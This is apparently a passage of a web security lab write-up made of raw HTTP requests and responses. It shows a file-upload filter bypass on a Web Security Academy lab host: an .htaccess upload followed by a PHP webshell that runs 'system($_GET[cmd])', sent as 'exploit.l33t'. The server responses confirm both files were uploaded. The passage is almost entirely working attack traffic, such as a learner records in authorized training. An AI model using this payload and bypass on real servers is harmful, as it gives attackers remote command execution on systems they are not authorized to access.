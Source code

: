 ```
...

HTTP/1.1 200 OK
Date: Wed, 07 Jun 2023 10:06:17 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: close
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 130

The file avatars/.htaccess has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

**Upload webshell with `l33t` extension **
```
POST /my-account/avatar HTTP/1.1
Host: 0a5900660399847f816b34d8000200d4.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryItASJsAOM6WVWXFg
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Cookie: session=AEVMLNrxJBRC31ZIanklP6inQoGw4Lj8
Content-Length: 445

------WebKitFormBoundaryItASJsAOM6WVWXFg
Content-Disposition: form-data; name="avatar"; filename="exploit.l33t"
Content-Type: application/x-php

<?php system($_GET["cmd"]);?>

------WebKitFormBoundaryItASJsAOM6WVWXFg
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryItASJsAOM6WVWXFg
Content-Disposition: form-data; name="csrf"

7GWn4gmff7V1guJCeMnpDsdI9DIcGR5T
------WebKitFormBoundaryItASJsAOM6WVWXFg--

...

HTTP/1.1 200 OK
Date: Wed, 07 Jun 2023 10:04:30 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: close
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 133

The file avatars/exploit.l33t has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```
